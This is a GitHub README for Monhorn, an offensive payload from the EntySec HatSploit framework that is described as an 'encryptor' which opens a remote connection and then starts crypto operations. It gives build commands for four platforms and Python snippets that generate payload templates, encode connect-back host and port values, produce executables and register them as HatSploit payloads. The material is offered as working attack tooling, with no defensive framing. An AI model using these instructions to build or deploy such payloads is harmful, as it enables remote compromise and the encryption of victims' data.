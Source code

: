 # Monhorn

<p>
    <a href="https://entysec.netlify.app">
        <img src="https://img.shields.io/badge/developer-EntySec-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/Monhorn">
        <img src="https://img.shields.io/badge/language-C-grey.svg">
    </a>
    <a href="https://github.com/EntySec/Monhorn/stargazers">
        <img src="https://img.shields.io/github/stars/EntySec/Monhorn?color=yellow">
    </a>
</p>

Monhorn is an implementation of HatSploit encryptor that firstly establishes a remote connection and then begins crypto operations.

## Installing

You should install HatSploit to get Monhorn, because Monhorn depends on HatSploit Framework.

```
pip3 install git+https://github.com/EntySec/HatSploit
```

## Building Monhorn

**Dependencies:** `libssl.a`, `libcrypto.a` (`openssl`)

These are platforms which are supported by Monhorn.

### macOS

* Dependencies: OpenSSL (`libssl.a`, `libcrypto.a`), patched SDKs from [here](https://github.com/phracker/MacOSX-SDKs).

```shell
make all platform=macos sdk=<path>
```

### Apple iOS

* Dependencies: OpenSSL (`libssl.a`, `libcrypto.a`), patched SDKs from [here](https://github.com/theos/sdks).

```shell
make all platform=apple_ios sdk=<path>
make codesign
```

### Linux

* Dependencies: OpenSSL (`libssl.a`, `libcrypto.a`)

```shell
make all platform=linux
```

### Windows

* Dependencies: OpenSSL (`libssl.a`, `libcrypto.a`), `mingw-w64` cross-toolchain.

```shell
make all platform=windows
```

## Basic usage

To use Monhorn and build payloads you should import it to your source.

```python3
from monhorn import Monhorn
from monhorn.session import MonhornSession
```

* `Monhorn` - Monhorn utilities, mostly for generating payloads and encoding arguments.
* `MonhornSession` - Wrapper for `HatSploitSession` for Monhorn, HatSploit should use it with Monhorn payload.

To get Monhorn template, you should call `get_template()`.

```python3
from monhorn import Monhorn

monhorn = Monhorn()
template = monhorn.get_template('linux', 'x64')
```

To encode Monhorn data, you should call `encode_data()`.

```python3
from monhorn import Monhorn

monhorn = Monhorn()
args = monhorn.encode_data('127.0.0.1', 8888)
```

To get Monhorn executable, you should call `get_monhorn()`.

```python3
from monhorn import Monhorn

monhorn = Monhorn()
executable = monhorn.get_monhorn('linux', 'x64', '127.0.0.1', 8888)
```

**NOTE:** If you want Monhorn to connect you should specify both `host` and `port`, but if you want Monhorn to listen, you should specify only `port`.

## Adding Monhorn payload

To add Monhorn payload to HatSploit you should follow these steps.

* Write a basic HatSploit payload template.
* Import `Monhorn` and `MonhornSession` and put `Monhorn` to `HatSploitPayload` class.
* Set payload parameter `Session` to `MonhornSession`.
* Return `get_monhorn()` with platform, architecture and host and port specified.

```python3
return self.get_monhorn(
    self.details['Platform'],
    self.details['Architecture'],
    remote_host,
    remote_port
)
```
